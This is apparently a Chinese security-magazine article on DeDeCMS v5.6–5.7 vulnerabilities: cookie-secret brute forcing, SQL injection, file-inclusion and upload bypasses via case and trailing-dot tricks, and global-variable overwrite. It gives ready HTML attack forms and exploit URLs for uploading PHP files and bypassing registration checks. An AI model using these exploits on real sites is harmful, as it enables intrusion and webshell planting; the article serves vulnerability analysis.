$rnd_cookieEncode = chr(mt_rand(ord('A'),ord('Z'))).chr(mt_rand(ord('a'),ord('z'))).chr(mt_rand(ord('A'),ord('Z'))).chr(mt_rand(ord('A'),ord('Z'))).chr(mt_rand(ord('a'),ord('z'))).mt_rand(1000,9999).chr(mt_rand(ord('A'),ord('Z')));
```

形式如：AaAAa9999A，即前 5 位为英文字母，分别为大写、小写、大写、大写、小写；然后是 4 位数字，最后一位为大写英文字母，一共 10 位。暴力破解工具选择 MD5Crack 4，因为这个版本可以按指定的规则进行破解，如图 4 所示。



图 4

首先输入待破解的 MD5 码，然后选中①处的“Plugins”，选中②处的“Templet Plug 2.0”，在③处输入密码规则：[A-Z][a-z]2[A-Z][a-z][1-9]3[0-9][A-Z]，④处对规则做了一些简单说明，译文如下。

> 首先，让我们看一个例子：[p][r]3[a-z]2-4{0,3,6-8}。模式中包括的“[]”或“{}”为基本元素，其中指定字符集；可以用“,”列出字符，或用“-”表示连接的范围。基本元素之前的数字表示重复次数，不指定时默认为 1。[] 和 {} 的区别如下。① 默认（前面无数字）[] 是指重复 1 次，{} 是指重复 0 次……

## 漏洞攻防

- ② 前面 1 个数字（如：x[...]，x{...}），[] 是指重复 x 次，{} 是重复 0 到 x 次。
- ③ 前面 2 个数字（如：x-y[...]，x-y{...}），[] 和 {} 是相同的，指重复 x 到 y 次。

[...] == 1-1[...]，{...} == 0-1{...}  
3[...] == 3-3[...]，3{...} == 0-3{...}

还有更多的例子：

- `[a][b][c] : abc`
- `[a,b,c] —— [a-c] : a;b;c`
- `{a-c} : NULL;a;b;c`
- `2[a-c] : aa;ab;ac;ba;bb;bc`
- `2{a-c} : NULL;a;b;c;aa;ab;ac;ba;bb;bc;ca;cb;cc`



图 6

随后就可以开始破解了。一旦获得 `$cfg_cookie_encode` 变量，我们就可以顺利注入，提交页面代码如下（注意必须将 `document.getElementById('dede_fields').value` 值中的单引号替换为转义单引号，即 `'` 转为 `\'`）。

```html
<form method="post" action="http://127.1/member/edit_fullinfo.php" name="form1">
  dopost:<input type="text" value="save" name="dopost"/><br>
  modid:<input type="text" value="1" name="modid"/><br>
  cfg_cookie_encode:<input type="text" value="..." name="cfg_cookie_encode"/><br>
  dede_fields:<input type="text" value="" name="dede_fields" size="50"/><br>
  <input type="hidden" value="1" name="dede_fieldshash"/>
  <button type="submit" onclick="javascript:...">完成</button>
</form>
<script>
  ... // hex_md5() 为 JavaScript 版 MD5 加密函数
</script>
```

> 当 `dede_fields=@` 且使用 `qq` 变量定义方式不同时，SQL 执行结果分别为“语句执行失败/语句成功”。示例中展示了 `UPDATE dede_member_person SET ...` 的两种拼接结果。

MySQL 版本为 5.0.90。

测试注入时注意“@”定义变量的用法，“`qq=@...`”表示执行成功，而“`@qq...`”表示执行不成功。

利用如图 5 所示的页面，提交后完成注入，页面转向后获得管理员的密码，如图 6 所示。



图 5

### 上传漏洞

其实 DeDeCMS 对上传进行了严格的限制。首先使用 `/include/uploadsafe.inc.php` 禁止某些文件类型，如 `php、pl、cgi、asp、aspx、jsp、php3、shtm、shtml`，然后上传时再次进行允许和禁止判断，限制应该是很严格的；但是 `/include/dialog/select_soft_post.php` 文件存在失误，导致可以绕过这些限制上传 ASP 木马文件。主要代码如下。

```php
<?php
if(!isset($cfg_basedir)) {
    include_once(dirname(__FILE__).'/config.php');
}
...
$newname = (empty($newname) ? '' : preg_replace("#['\"\\*\(\)\[\]<>]#", '', $newname));
...
$uploadfile_name = trim(preg_replace("#[ \r\n\t]*#", '', $uploadfile_name));
if(!preg_match("#^(".$cfg_softtype.")$#i", $uploadfile_name))
...
?>
```

```php
// $cfg_softtype="zip|gz|rar|iso|doc|xls|ppt|wps"
/* ③进行允许$cfg_softtype类型判断，因为正则表达式缺少"$"，所以".zip.asp"将满足条件，
   还可以将上传文件的扩展名改为rar等 */
ShowMsg("你所上传的{$uploadmbtype}不在许可列表，请更改系统对扩展名限定的配置！");
...
if(!empty($newname)){
  $filename = $newname;
  if(!preg_match("#\.#",$filename)) $fs = explode('.', $uploadfile_name);
  else $fs = explode('.', $filename);
  // ④新文件名包含“.”取新文件扩展名，否则取上传文件扩展名
  if(preg_match("#".$cfg_not_allowall."#", $fs[count($fs)-1])){
    // ⑤再次进行禁止$cfg_not_allowall类型判断（缺少"i"可用大小写绕过）
    ShowMsg("你指定的文件名被系统禁止！","javascript:;");
    exit();
  }
}
...
$fullfilename = $cfg_basedir.$activepath.'/'.$filename;
$fullfileurl  = $activepath.'/'.$filename;
move_uploaded_file($uploadfile, $fullfilename) or die("上传文件到".$fullfilename."失败！");
// ⑥PHP的move_uploaded_file()函数将上传文件移动（复制）到新位置
```

与 include/dialog 目录其他文件不同，该文件没有直接包含 config.php 文件（包含 config.php 文件时，会要求以管理员身份登录后才能继续访问），而是增加了语句①进行判断 $cfg_basedir 变量，如果没有定义则强制包含 config.php 文件。这样做的意图是不允许直接访问 select_soft_post.php 文件，但是同样存在风险：一旦 $cfg_basedir 变量已经定义，将绕过 config.php 文件的限制。具体方法是以包含方式调用 select_soft_post.php。因为语句②过滤了正、反斜杠，不能进行目录跳转，默认上传到网站根目录。语句③进行允许 $cfg_softtype 类型判断，因为正则表达式缺少“$”，所以“.zip.asp”将满足条件，还可以将上传文件扩展名改为允许上传类型（如 rar 等）。语句④判断新文件名是否包含“.”，是则取新文件名扩展名。语句⑤再次进行禁止 $cfg_not_allowall 类型判断，因为正则表达式缺少“i”，可以通过大写绕过。语句⑥完成上传文件复制。

```php
if($cfg_mb_open=='N'){
  ShowMsg("系统关闭了会员功能，因此你无法访问此页面！","javascript:;");
  exit();
}
// ①要求系统开启会员功能
$cfg_ml = new MemberLogin();
if(!isset($dopost) || empty($dopost)){
}
else if($dopost=='memclickout'){
  $sval = GetCkVdValue();
  if(preg_match('/S-P[0-9]+-RN[0-9]/', $oid)){
    $oid = trim($oid);
  } else {
    ShowMsg('您的订单号不存在!', '/member/shops_orders.php', 0, 2000);
    exit();
  }
  // ②要求$oid变量符合正则表达式
  if($cfg_ml->IsLogin()){
    $userid = $cfg_ml->M_ID;
  } else {
    // ③要求用户登录
  }
  $row = $dsql->GetOne("SELECT * FROM #@__shops_orders WHERE oid='$oid'");
  if(is_array($row)){
    $OrdersId = $oid;
    ...
    $rs = $dsql->GetOne("SELECT * FROM #@__payment WHERE id='{$row['paytype']}'");
  }
  /* ④当$row不是数组时，不会重写变量$rs，
     所以外部提交$rs['code']变量可实现包含调用 */
  require_once DEDEINC.'/payment/'.$rs['code'].'.php';
}
```

包含方式调用 select_soft_post.php。由于语句①要求 $cfg_basedir 变量必须初始化，所以必须以包含方式调用 select_soft_post.php 文件，才能绕过 config.php 文件限制。分析页面“/plus/carbuyaction.php”，主要代码如下。

分析代码可以知道：语句①和③要求系统开启会员功能并且登录用户，语句②要求变量 $oid 符合正则表达式。

## 漏洞攻防

正则表达式“S-P[0-9]+-RN[0-9]”，即以“S-P”开头，加数字，加“RN”，最后是数字。语句④是导致可以包含调用的关键，当 $row 不是数组，即 SQL 语句无返回结果，这时就可以外部提交 $rs['code'] 变量，实现包含调用 select_soft_post.php 文件。给出利用链接：

`http://127.1/plus/carbuyaction.php?dopost=memclickout&oid=S-P0-RN8888&rs[code]=../dialog/select_soft_post`

访问页面如图7所示。

图9

图7

将下面的源码另存为 upload1.htm，获得提交页面，如图8所示。

```html
<form action="http://127.1/plus/carbuyaction.php?dopost=memclickout&oid=S-P0-RN8888&rs[code]=../dialog/select_soft_post" method="post" enctype="multipart/form-data" name="form1">
  file:<input name="uploadfile" type="file" /><br>
  newname:<input name="newname" type="text" value="myfile.Php"/>
  <button class="button2" type="submit">提交</button><br><br>
  1,必须登录用户。<br>
  2,将待上传PHP文件扩展名改为“zip|gz|rar|iso|doc|xls|ppt|wps”其中之一。<br>
  3,newname为上传后的新文件名，扩展名使用大写绕过，如“Php”。<br>
</form>
```

图8

提交后尽管页面出错，如图9所示，但是 myfile.Php 文件已经成功上传到网站根目录。

漏洞影响：DeDeCMS v5.6 和 v5.7 所有版本。因为 v5.6 使用 eregi 函数进行正则判断，忽略大小写，所以无法绕过 CheckSql 函数的“Safe Alert: Request Error step 1 !”过滤，不存在注入漏洞，但是却存在上传漏洞。比较 v5.6 与 v5.7 页面代码，“/plus/carbuyaction.php”一致，仅“/dialog/select_soft_post.php”略有不同，代码如下。

```php
...
$uploadfile_name = trim(ereg_replace("[\r\n\t]*%0[\x?><'\"]{1,}*", $uploadfile_name));
if(!eregi("\\.(".$cfg_softtype.")", $uploadfile_name)) {
    ShowMsg("你所上传的{$uploadmbtype}不在许可列表，请更改系统对扩展名限定的配置！", "");
    exit();
}
if(!empty($newname)) {
    $filename = $newname;
    if(ereg("\\.", $filename)) $fs = explode('.', $uploadfile_name);
    else $fs = explode('.', $filename);
    if(eregi($cfg_not_allowall, $fs[count($fs)-1])) {
        ShowMsg("你指定的文件名被系统禁止！", "javascript:;");
        exit();
    }
    if(!ereg("\\.", $filename)) $filename = $filename.".".$fs[count($fs)-1];
}
...
```

只要我们在变量 $newname 最后增加一个“.”，就可以绕过限制了，比如“myfile.php.”，代码获取的文件扩展名 `$fs[count($fs)-1]` 是空值，所以不满足条件 `eregi($cfg_not_allowall, $fs[count($fs)-1])`，因此页面不执行 `exit()`，继续上传文件。

### 全局变量漏洞

由于 DeDeCMS 对全局变量限制不严格，导致可以外部提交全局变量。漏洞影响 2011 年 8 月 12 日升级之前 v5.7 和 v5.6 所有版本。DeDeCMS 限制提交以“cfg_|GLOBALS”开头的变量名，include/common.inc.php 相关代码如下。

```php
8月12日升级前
if (!defined('DEDEREQUEST')) {
    //检查和注销外部提交的变量
    foreach($_REQUEST as $_k=>$_v) //语句①
    {
        if (strlen($_k)>0 &&
            preg_match('/^cfg_|GLOBALS/',$_k))
        {
            exit('Request var not allow!');
        }
    }
    foreach(Array('_GET','_POST','_COOKIE') as $_request) //语句②
    {
        foreach($$_request as $_k=>$_v) ${$_k} = _RunMagicQuotes($_v);
    }
}

8月12日升级后
if (!defined('DEDEREQUEST')) {
    //检查和注销外部提交的变量（2011.8.10 修改登录时相关过滤）
    function CheckRequest(&$val) {
        if (is_array($val)) {
            foreach($val as $_k=>$_v) {
                CheckRequest($_k);
                CheckRequest($val[$_k]);
            }
        } else {
            if (strlen($val)>0 && preg_match('#^cfg_|GLOBALS#',$val)) {
                exit('Request var not allow!');
            }
        }
    }

    CheckRequest($_REQUEST);
    foreach(Array('_GET','_POST','_COOKIE') as $_request) {
        foreach($$_request as $_k=>$_v) ${$_k} = _RunMagicQuotes($_v);
    }
}
```

升级后增加了对提交变量名和值的过滤，我们分析升级前代码。语句①不允许以 $_REQUEST 方式提交“cfg_|GLOBALS”开头的变量名，由于 PHP 以数组方式存储变量，所以我们可以使用“_POST[cfg_xxx]”方式进行提交。修改 tags.php 文件如下，观察输出的页面全局变量。

```php
<?php
/**
 * @version        $Id: tags.php 1 2010-06-30 11:43:09Z tianya $
 * @package        DedeCMS.Site
 * @copyright      Copyright (c) 2007 - 2010, DesDev, Inc.
 * @license        http://help.dedecms.com/usersguide/license.html
 * @link           http://www.dedecms.com
 */
require_once (dirname(__FILE__) . '/include/common.inc.php');
require_once (DEDEINC . '/arc.taglist.class.php');
$PageNo = 1;
print_r($GLOBALS);
exit;
// 增加这两行代码，输出全局变量
if (isset($_SERVER['QUERY_STRING']))
...
```

在 URL 中提交 `_POST[cfg_var]=y`，然后查看页面源代码，观察 _GET 和 _POST 数组，如图10所示；当执行语句②后，_GET 数组中的变量被转为 _POST 数组中，最后转为全局变量，如图11所示。

图10

图11

分析 DeDeCMS 获取和注册变量的过程如下。

```php
if (!defined('DEDEREQUEST'))
```

## 漏洞攻防

```php
{
  ...(略)//检查和注册外部提交的变量，语句①，代码见前文
}
//系统配置参数，语句②
require_once(DEDEDATA."/config.cache.inc.php");
//数据库配置文件，语句③
require_once(DEDEDATA.'/common.inc.php');
...(略)
//模板的存放目录，语句④
$cfg_templets_dir = $cfg_cmspath.'/templets';
$cfg_templetsurl = $cfg_mainsite.$cfg_templets_dir;
...(略)
```

首先语句①检查外部提交的变量，然后语句②、③初始化全局变量（系统配置参数、数据库配置参数），最后语句④初始化网站的其他全局变量。所以即使语句①成功提交了以“cfg_”开头的网站全局变量，比如提交“cfg_mb_open”（是否开启会员功能）值为“Y”，随后还是会被初始化为网站设置值，目前还无法修改全局变量。此方法适合以 GET 方式提交 `_POST` 和 `_COOKIE`，以 POST 方式提交 `_COOKIE`。

修改全局变量。DeDeCMS 同时还通过 `include/filter.inc.php` 包含文件过滤不相关内容，比如禁止提交 `$cfg_notallowstr` 变量定义的字符，过滤 `$cfg_replacestr` 变量定义的字符为 `***` 等，代码如下。

```php
//过滤不相关内容
function _FilterAll($fk, &$svar)
{
    global $cfg_notallowstr, $cfg_replacestr;
    if (is_array($svar)) {
        foreach($svar as $_k => $_v) {
            $svar[$_k] = _FilterAll($fk, $_v);
        }
    } else {
        //禁止提交$cfg_notallowstr变量定义的字符
        ...
    }
    return $svar;
}
/* 对 _GET,_POST,_COOKIE 进行过滤 */
foreach(Array('_GET','_POST','_COOKIE') as $_request)
{
    foreach($$_request as $_k => $_v)
    {
        ${$_k} = _FilterAll($_k, $_v); //注册变量并过滤变量值
    }
}
```

过滤不相关内容的同时注册变量，搜索 `filter.inc.php` 文件包含情况，如图12所示。如 `member/config.php` 文件，首先包含 `common.inc.php` 文件，然后再包含 `filter.inc.php` 文件，因此可以修改以“cfg_”开头的全局变量。图中部分页面文件及包含这几个文件的页面均可以提交和修改全局变量，几乎 member 目录中所有的页面文件均受此影响。

- 利用一：绕过注册限制注册新会员。变量 `cfg_mb_open` 决定是否开启会员功能，变量 `cfg_mb_allowreg` 决定是否开启新会员注册功能，“N”为关闭，否则开启功能。所以即使网站关闭会员功能，只要提交 `cfg_mb_allowreg` 变量不为“N”，便可以成功注册新会员；提交 `cfg_mb_open` 变量不为“N”，则可以使用曾经注册的会员继续登录。绕过的方法有：
  - 修改注册提交页面源码，将 form 的 action 值改为 `http://127.1/member/reg_new.php?_POST[cfg_mb_allowreg]=Y`，其中“127.1”根据实际修改。
  - 修改注册提交页面源码，在 form 中增加 `input` 元素，name 属性为 `_COOKIE[cfg_mb_allowreg]`，值为“Y”（非“N”）。

- 利用二：注册已审核新会员。DeDeCMS 系统默认设置时，新注册会员需要邮件验证。全局变量 `cfg_mb_spacesta` 值为会员使用权限开通状态，默认“-10”为需要邮件验证，“-1”为手工审核，“0”为没限制。注册页面 `reg_new.php` 的代码如下。

```php
$spaceSta = ($cfg_mb_spacesta < 0 ? $cfg_mb_spacesta : 0);
$inQuery = "INSERT INTO #@__member
(mtype, userid, pwd, uname, sex, rank, money, email, scores,
 matt, spacesta, face, safequestion, safeanswer, jointime, joinip, logintime, loginip)
VALUES('$mtype','$userid','$pwd','$uname','$sex','10',
 '$dmoney','$email','$dfscores','0','$spaceSta','','$safequestion',
 '$safeanswer','$jointime','$joinip','$logintime','$loginip')";
if($dsql->ExecuteNoneQuery($inQuery))
...
```

所以提交变量 `$cfg_mb_spacesta` 值不小于 0 时，注册的会员将不需要邮件验证和审核。利用前文的方法②修改注册提交页面源码，提交不含“1”的变量 `safe_gdopen` 可以绕过验证码限制，详细利用略。

利用三：全局变量注入。使用 DW 在 `member` 目录搜索 `（select|update|insert）.*(cfg_)` 字符串，即使用全局变量的 SQL 语句，如图 13 所示，获得 `album_add.php`、`archives_add.php`、`article_add.php` 等页面，使用 `$cfg_sendarc_scores` 全局变量，并且以数字型引入 SQL 语句，如 `"UPDATE `#@__member` SET scores=scores+{$cfg_sendarc_scores} WHERE mid='".$cfg_ml->M_ID."';"`。



图 13

前文提及的注入漏洞二必须获取 `$cfg_cookie_encode` 变量，这里我们完全可以提交变量 `$cfg_cookie_encode` 为空，满足条件。受影响页面有 `member` 目录中的 `reg_new.php`、`edit_fullinfo.php` 等页面。详细利用略。

利用四：全局变量上传木马。会员上传页面为 `member` 目录中的 `uploads_add.php`、`uploads_edit.php` 等，上传函数 `MemberUploads` 定义在 `include/helpers/upload.helper.php` 文件，分析代码如下。

```php
function MemberUploads($upname,$handname,$userid=0,$utype='image',$exname='',$maxwidth=0,$maxheight=0,$water=false,$isadmin=false)
{
    //略
    $allAllowType = str_replace('||','|',$cfg_imgtype.'|'.$cfg_mediatype.'|'.$cfg_mb_addontype);
    /*①提交全局变量$cfg_imgtype、$cfg_mediatype、$cfg_mb_addontype，自定义允许上传的文件类型*/
    if(empty($GLOBALS[$upname]) && is_uploaded_file($GLOBALS[$upname])) {
        $GLOBALS[$upname.'_name'] = ...
    }
}
```

```php
trim(preg_replace('#[^\w\-\.]+#i','',$GLOBALS[$upname.'_name']));
//②过滤上传文件名中的空格等符号
if($utype=='image') //③分别检查 image、flash、media 等文件类型
...
$fs = explode('.',$GLOBALS[$upname.'_name']);
$fname = $fs[count($fs)-1]; // 上传文件扩展名
$alltypes = explode('|',$allAllowType);
if(!in_array(strtolower($fname),$alltypes)) {
    ShowMsg('你所上传的文件类型不被允许！',-1);
    exit();
}
// 强制禁止的文件类型
if(preg_match('/(asp|php|pl|cgi|shtml|js)$/',$fname)) {
    //⑤大写绕过，如 Php*
    ShowMsg('你上传的文件为系统禁止的类型！',-1);
    exit();
}
move_uploaded_file($GLOBALS[$upname],$cfg_basedir.$filename) or die('上传文件到 '.$filename.' 失败！'); //⑥使用 move_uploaded_file 完成上传
@unlink($GLOBALS[$upname]);
```

我们可以提交全局变量 `$cfg_imgtype`、`$cfg_mediatype`、`$cfg_mb_addontype`，自定义允许上传的文件类型，使用大写扩展名并增加空格等符号，比如“`P hp`”等，首先绕过 `include/uploadsafe.inc.php` 对 php 类型的限制，然后经过代码②过滤空格后绕过代码⑤限制，最后使用 `move_uploaded_file` 函数完成文件上传。漏洞利用必须登录用户，将下面代码另存为 `upload2.htm`，页面如图 14 所示。

```html
<form name="form1" action="http://127.0.0.1/member/uploads_add.php" method="post" enctype="multipart/form-data">
  <input type="hidden" name="mediatype" value="4"/>
  <input type="hidden" name="_GET[cfg_mb_addontype]" value="P hp|Php|php"/>
  <input type="hidden" name="dopost" value="save"/>
  <input name="addonfile" type="file" id="addonfile"/>
  <button class="button2" type="submit">提交</button>
</form>
```



图 14

| 日期 | 版本 |
|---|---|
| 20110216 | DedeCms V5.7-GBK-Final 或 V5.6 到 V5.7 GBK 升级程序 |
| 20100324 | DedeCms V5.5-GBK-Final |
| 20100514 | DedeCms V5.6-GBK-Final |

### 漏洞利用实例

将待上传的 Php 文件扩展名改为“P hp”，然后利用该页面完成上传，从地址栏得到新文件名，如图 15 所示。



图 15

全局变量漏洞判断。在地址栏提交“`_POST[cfg_xxx]`”，如果页面返回“Request var not allow!”则表明安装过 8 月 12 日补丁，不存在全局变量漏洞；如果页面没有出错返回正常，则存在该漏洞，如图 16 所示。

